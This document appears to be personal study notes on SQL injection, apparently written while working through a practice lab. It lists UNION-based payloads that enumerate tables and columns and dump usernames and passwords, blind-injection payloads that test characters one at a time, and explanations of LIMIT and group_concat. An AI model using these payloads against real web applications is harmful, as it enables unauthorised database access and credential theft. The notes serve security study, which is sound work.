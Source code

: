 # basic

id=1' union select 1,2,3

id=1' union select current_user,database(),version()

user()

## get table name

`union select group_concat(table_name) from information_schema.tables where table_schema=database()`

or we can use

`union select table_name from information_schema.tables where table_schema=database() LIMIT 0,1`
then limit 1,1 2,1 3,1  etc.


![](_v_images/20190101220748303_890620617.png)

## get column name
`union select 1,column_name,3 from information.schema where table_name='users'

## get data
`union select 1,group_concat(username),group_concat(password) from security.users --%20



## LIMIT clause
`LIMIT 1`means limit to only one row

`LIMIT 3,9` means from the third row, reveals nine rows

the reason why a lot of payloads contain `LIMIT 0,1` is 
the places that can reveal the results are always designed for revealing ONLY 1 ROW of data.
but if we select without `LIMIT 0,1`. There probably be a lot of rows of data. In this case, nothing will be dumped. 
also, we can use `group_concat` to address this issue.

![](_v_images/20190101230453157_1303682838.png)


## blind injection

```
?id=1' and (select substring(user(),1,1))='r' --%20
?id=1' and substring(user(),1,1)='r' --%20 Also works

?id=1' and ascii(substring(user(),1,1))>120 --%20
?id=1' and (select table_name from information_schema.tables where table_schema='security' limit 0,1)='emails' --%20

```

substring is a function, but select is a builtin sentence
function being invoked by (), while select doesn't need it, instead, a space will be needed.

select XXX is a full sentence
and (select XXX) is a value

so when using `union select user()='root'` will absolutely thrown error


